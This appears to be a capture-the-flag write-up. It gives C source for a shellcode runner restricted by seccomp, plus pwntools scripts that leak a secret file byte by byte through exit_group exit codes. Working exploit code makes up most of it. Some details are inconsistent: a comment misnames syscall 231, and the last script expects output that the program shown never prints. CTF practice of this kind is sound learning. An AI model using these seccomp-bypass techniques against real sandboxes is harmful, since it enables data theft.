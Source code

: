 ```yaml
---
title: Exploiting Seccomp-Restricted Program to Leak a Flag
author: megachar0x01
date: 2023-06-09
categories: [Pwn, amd64, ctf]
---
```


### Purpose : Get The Flag


**Introduction:** The purpose of this write-up is to explain the process of exploiting a seccomp-restricted program to leak a secret. Seccomp is a mechanism in Linux that restricts the system calls a program can make, providing an additional layer of security. The code provided demonstrates the use of seccomp to restrict the program to only two syscalls: `read` and `exit_group`. By leveraging these restrictions and reading one byte at a time, we can gradually leak the secret stored in the program's memory.

**Exploit Strategy:** To exploit the vulnerability, we need to leak the secret byte by byte. Since the program restricts the syscalls to `read` and `exit_group`, we cannot directly leak the secret using the `printf` function or other standard output methods. Instead, we can use the `exit_group` syscall to read the secret directly from memory. By continuously invoking the `exit_group` syscall with a  secret variable  pointer as first argument which  leaked one byte  with exit code that consists of byte in numeric form on every prgram exit , we can gradually leak the secret on .

<img src="https://i.imgur.com/ecAztLc.png" alt="img_1">

<img src="https://i.imgur.com/IEJkw96.png" alt="img_1">

## Vuln Code
```c

#define _DEFAULT_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stddef.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <sys/fcntl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <string.h>

#define CHECK(B) do { if(!(B)) exit(1); } while(0)

char secret[0x100];
int init_seccomp();

void init() {
    int fd;
    // setting stdout and stdin to be unbuffered
    setvbuf(stdout,0,_IONBF,0);
    setvbuf(stdin,0,_IONBF,0);
    // load the secret
    fd = open("secret.txt", O_RDONLY);
    read(fd, &secret, sizeof(secret));
    close(fd);
}

int main()
{
    char *code;

    init();

    printf("Welcome to \033[1;32mRCEaaS\033[0m\n");
    
    code = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, -1, 0);
    read(0, code, 0x1000);

    if (strcmp(secret, code)) {
        CHECK(!fclose(stdout));
        CHECK(!fclose(stderr));
        CHECK(!init_seccomp());
    } else
        printf("You seem trustworthy!\n");


    ((void (*)(void)) code) ();
}

int init_seccomp()
{
#define ALLOW(NR) \
    BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, (NR), 0, 1), \
    BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW) \

    struct sock_filter filter[] = {
        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, arch)),
        BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, AUDIT_ARCH_X86_64, 1, 0),
        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),

        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, nr)),
        ALLOW(SYS_read),
        ALLOW(SYS_exit_group),

        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),
    };
#undef ALLOW

    struct sock_fprog prog = {
        .len = sizeof(filter) / sizeof(*filter),
        .filter = filter,
    };

    return prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) || prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
}


```


## Exploit

##### First Exploit.py

```python
#!/usr/bin/python3
from pwn import *
import struct

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main

break *main+159
continue
'''.format(**locals())

exe = './vuln'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)

secret = 0x404060



for i in range(256):
	
	try:
		io = start()

		payload = asm(f"""nop
		mov rsi , {secret+i}
		mov rdi, [rsi]
		mov rax,231 /* read syscall number */
		syscall


		""")



		io.sendlineafter(b'Welcome to \033[1;32mRCEaaS\033[0m\n', payload)
		io.recvline()
		print(success())

	except EOFError:
		pass

print(Progress.success())



```

##### Second Exploit.py

```python
#!/usr/bin/python3
from pwn import *

temp_code = [0] * 256
temp_pid= [0] * 256

with open('/tmp/code.txt') as code:
	with open('/tmp/pid_sort.txt') as pid:

		for i in range (256):
			temp_code[i] = code.readline().strip("\n")
			temp_pid[i] = pid.readline().strip("\n")		
		for i in range(256):
			for j in range(256):
				if temp_code[j].split("(pid ")[1].strip(")\n") == temp_pid[i]:
					chr_int = temp_code[j].replace("[*] Process './vuln' stopped with exit code ","").split(" ")[0]
					print(chr(int(chr_int)),end="")

		print("\n")

```

##### Third Exploit.sh

```shell
#!/bin/bash
python3 first.py | tee /tmp/exit_code.txt
cat /tmp/exit_code.txt  |grep "stopped with exit code"  | tee /tmp/code.txt 
cat /tmp/exit_code.txt | grep "exit"  |cut -d "(" -f 2 | sort | cut -d " " -f 2   | cut -d ")" -f 1 | tee /tmp/pid_sort.txt
#clear
echo "Content of Secret.txt"
python3 second.py
rm /tmp/*.txt

```

After Writing this i was known that exit code can be recoded directly Thank @zeeshan.

```python
from pwn import *
context.arch = "amd64"

def gen(i, flag):
    payload = asm(f"""
    mov rsp, {flag+i}
    xor rdi, rdi
    mov dil, byte ptr [rsp]
    {shellcraft.exit_group("rdi")}
    """)
    return payload

char = ""
exit_code = 0

for i in range(256):
    io = process(["./vuln"], close_fds=False)

    io.recvuntil(b'secret ')
    flag = int(io.recvline()[:-1], 16)
    log.info(f"flag is at: {hex(flag)}")

    payload = gen(i, flag)
    io.send(payload)

    exit_code = io.poll(True)
    if exit_code < 20:
        log.info(f"non ascii encountered, exiting...")
        exit(0)
    char += bytes.fromhex(hex(exit_code)[2:]).decode('ASCII')
    info(f"flag is {char}")

    io.close()
```


